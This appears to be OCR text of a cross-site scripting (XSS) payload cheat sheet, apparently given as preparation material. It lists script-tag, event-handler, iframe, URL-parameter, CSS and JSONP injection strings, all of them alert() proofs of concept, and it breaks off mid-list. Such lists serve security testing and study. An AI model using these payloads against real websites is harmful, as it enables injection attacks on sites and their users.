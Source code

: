 
Special Cases

CSS injection: background-image: url("javascript:alert('XSS')")

JSONP: callbackFunction(<script>alert('XSS')</script>)

Here's a comprehensive list of XSS payloads for your preparation:

Basic XSS Payloads

1. <script>alert('XSS')</script>


2. <img src=x onerror=alert('XSS')>


3. <svg><script>alert('XSS')</script></svg>


4. <iframe src="javascript:alert('XSS')"></iframe>


5. <body onload=alert('XSS')>


6. <a href="#" onclick="alert('XSS')">Click me</a>


7. <div onmouseover="alert('XSS')">Hover over me</div>


8. <input type="text" value="<script>alert('XSS')</script>">



URL Parameter Attacks

1. http://example.com/?q=<script>alert('XSS')</script>


2. http://example.com/?q=<img src=x onerror=alert('XSS')>



HTML Injection in Different Contexts

1. JavaScript:

javascript:alert('XSS')



2. HTML Attribute:

<a href="javascript:alert('XSS')">Link</a>



3. CSS Injection:

style="background-image: url('javascript:alert(1)');"




Common Frameworks and Languages

1. PHP:
